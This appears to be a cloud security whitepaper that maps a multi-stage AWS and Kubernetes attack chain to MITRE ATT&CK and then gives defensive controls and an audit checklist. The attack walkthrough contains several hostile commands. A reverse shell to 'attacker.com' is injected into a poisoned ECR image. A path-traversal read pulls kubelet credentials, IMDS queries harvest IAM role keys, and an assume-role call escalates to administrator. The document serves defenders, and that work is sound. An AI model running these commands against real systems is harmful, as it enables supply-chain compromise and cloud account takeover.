


# Advanced Cloud Attack Path Analysis: Mapping Multi-Stage Exploits to the MITRE ATT&CK Matrix

## Executive Summary

Cloud threat landscapes have evolved beyond simple, single-stage exploits. Modern adversaries construct complex, multi-stage attack paths that traverse identity boundaries, exploit network configurations, and compromise container orchestration planes. A single, isolated vulnerability—such as an open security group or a development access key leak—may appear low-risk on its own. However, when chained together with other configurations, it can lead directly to full platform takeover.

At scale, security teams often analyze vulnerabilities in isolation, failing to see how an attacker can connect them to build an exploitation path. Understanding these paths requires mapping attacker techniques to the MITRE ATT&CK Cloud Matrix. This whitepaper analyzes a complete, multi-stage cloud and Kubernetes attack chain. It demonstrates how an attacker pivots from a compromised developer workspace to ECR container poisoning, schedules privileged pods, and escalates to full AWS cloud administration.

---

## Threat Model and Attack Surface

The cloud attack surface is highly dynamic. Attackers target developer endpoints, build systems, registry storage, container environments, and IAM metadata services to build paths to target resources.

```
       [ Stolen Developer AWS Access Key ]
                       │
                       ▼ (T1586: Compromise Accounts)
       [ Access ECR Registry Subnet ]
                       │
                       ▼ (T1204: User Execution)
     [ Inject Backdoor into Container Image ]
                       │
                       ▼ (T1195: Supply Chain Compromise)
    [ Poisoned Image deployed to K8s Cluster ]
                       │
                       ▼ (T1611: Escape to Host Node)
    [ Mount HostPath to extract Worker IAM Credentials ]
                       │
                       ▼ (T1078: Valid Accounts)
   [ Assume Admin Role via Metadata Service ]
                       │
                       ▼
          [ Full Cloud Account Control ]
```

### Threat Vectors and Kill-Chains

1. **Initial Access via Stolen Developer Keys (T1586)**:
   - The attacker extracts active AWS access keys from a developer's local `.aws/credentials` file via malware on their workstation.
2. **Persistence and Supply Chain Poisoning (T1195)**:
   - The attacker uses the stolen credentials to access the enterprise Elastic Container Registry (ECR). They download a production container image, inject a reverse-shell payload, and push the poisoned image back to ECR, overwriting the `production-latest` tag.
3. **Privilege Escalation via Node Containment Breakout (T1611)**:
   - The poisoned container is deployed to the production Kubernetes cluster. Once running, the container exploits a hostPath mount configuration to access the underlying worker node's directory structure.
4. **Credential Harvesting via Instance Metadata Service (T1552)**:
   - From the worker node, the attacker queries the EC2 Instance Metadata Service (IMDSv2) to harvest the node's IAM role credentials, pivoting from Kubernetes access to AWS cloud provider access.
5. **Control Plane Takeover via AssumeRole (T1078)**:
   - The attacker uses the node's IAM credentials to assume a high-privilege cross-account administration role, completing the attack chain.



---

## Deep Technical Body

### Step-by-Step Anatomy of the Attack Path

#### Stage 1: Initial Access & ECR Registry Poisoning
The attacker discovers a leaked AWS Access Key in public developer logs or extracts it from a compromised local workstation.
* **API Probe**:
  ```bash
  aws sts get-caller-identity
  ```
  The response reveals the key belongs to `arn:aws:iam::123456789012:user/dev-jason`.
* **Registry Push**: The developer key has write-access to the ECR registry. The attacker logs into ECR, pulls the core API image, adds a malicious entrypoint (reverse shell), and pushes it back:
  ```bash
  aws ecr get-login-password --region us-west-2 | docker login --username AWS --password-stdin 123456789012.dkr.ecr.us-west-2.amazonaws.com
  docker pull 123456789012.dkr.ecr.us-west-2.amazonaws.com/api-service:latest
  # Injects: /bin/bash -i >& /dev/tcp/attacker.com/4444 0>&1
  docker build -t 123456789012.dkr.ecr.us-west-2.amazonaws.com/api-service:latest .
  docker push 123456789012.dkr.ecr.us-west-2.amazonaws.com/api-service:latest
  ```

#### Stage 2: Deployment & Kubernetes Pod Hijacking
The CI/CD pipeline triggers a rolling update, pulling the poisoned `api-service:latest` image and deploying it. The pod spawns and connects back to the attacker's listener.

#### Stage 3: Escape to Host Node via hostPath Mounts
The attacker inspects the pod configuration and discovers that `/var/log` is mounted from the host:

```yaml
volumeMounts:
- name: log-dir
  mountPath: /var/log
...
volumes:
- name: log-dir
  hostPath:
    path: /var/log
```

The attacker uses this access to traverse directories and read the host's kubelet configuration containing node credentials:
```bash
cat /var/log/../../../etc/kubernetes/kubelet.conf
```
They extract the client certificate and private key, allowing them to send commands directly to the API server as a Kubernetes Node.

#### Stage 4: Cloud Pivot via IMDSv2 Harvesting
Using node-level permissions, the attacker bypasses container restrictions. They query the EC2 Instance Metadata Service from the node to extract the node's AWS IAM role credentials:

```bash
# Get session token for IMDSv2
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

# Fetch temporary role credentials
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/EKS-Worker-Node-Role
```

The attacker configures these temporary keys on their local workstation.

#### Stage 5: Privilege Escalation to Admin Role
The EKS worker node role has trust permissions to assume administrative roles for maintenance. The attacker calls STS to assume the role:

```bash
aws sts assume-role --role-arn arn:aws:iam::123456789012:role/AdministratorAccess --role-session-name AttackSession
```

The server returns temporary administrator credentials, giving the attacker full control of the AWS cloud account.

---

## Defensive Architecture

Preventing multi-stage attacks requires breaking compilation links and applying strict verification gates at every transition.

### Architecture Topology: Hardened Deployment and Runtime Isolation



* **Restrict IMDS Hop Limit**: Configure the EC2 Instance Metadata Service hop limit to 1. This prevents pods (which add a network hop) from querying the metadata service, restricting IMDS access exclusively to the host node.
* **Block hostPath and Privileged Pods**: Enforce Kyverno policies to reject any pod attempting to use hostPath mounts or run as privileged.

---

## Tooling and Implementation

Implement a defense-in-depth monitoring chain using specialized tools:

1. **Kyverno / OPA Gatekeeper**: Deploy admission controllers to enforce Pod Security Standards, blocking hostPath mounts and restricting pod capabilities.
2. **Aqua Security Trivy / Sysdig Falco**: Use Trivy to scan images in the registry for vulnerabilities, and deploy Falco to monitor container runtime activity, alerting on anomalous shell executions or file system traversals.
3. **IMDS Protection Configuration**: Use the AWS CLI to enforce IMDSv2 and restrict the metadata response hop limit:
   ```bash
   aws ec2 modify-instance-metadata-options --instance-id i-0123456789abcdef0 --http-tokens required --http-put-response-hop-limit 1
   ```

---

## Attack Path Security Audit Checklist

| Item | Focus Area | Verification Step / Command | Target State |
| :--- | :--- | :--- | :--- |
| 1 | IMDS Configuration | Run `aws ec2 describe-instances` and inspect metadata options. | `HttpTokens` is set to `required` and `HttpGetResponseHopLimit` is set to `1`. |
| 2 | Pod Volume Scopes | Search pod specifications for `hostPath` mounts. | `hostPath` mounts are blocked; pods use persistent volume claims or secure empty directories. |
| 3 | ECR Access Scope | Review IAM policies assigned to developer and runner accounts. | Write access to ECR is restricted to dedicated build pipeline service roles. |
| 4 | Image Signatures | Confirm if the cluster blocks unsigned container deployments. | Unsigned images are rejected by the admission controller. |
| 5 | Runtime Alerting | Check if container shell executions generate security events. | Falco rules trigger high-priority alerts in the central SIEM. |
| 6 | Access Key Rotation | Review the age of active developer access keys. | Active keys are rotated or disabled after 90 days. |

---

## References

* *MITRE ATT&CK Matrix for Cloud*: [MITRE ATT&CK Matrix](https://attack.mitre.org/matrices/updates/2023-cloud/)
* *AWS EC2 Instance Metadata Service v2 Security*: [AWS Security Blog](https://aws.amazon.com/blogs/security/defense-in-depth-introducing-instance-metadata-service-v2/)
* *Kubernetes Container Breakout Mitigation*: [SIG-Security Best Practices Guide](https://kubernetes.io/docs/concepts/security/pod-security-standards/)
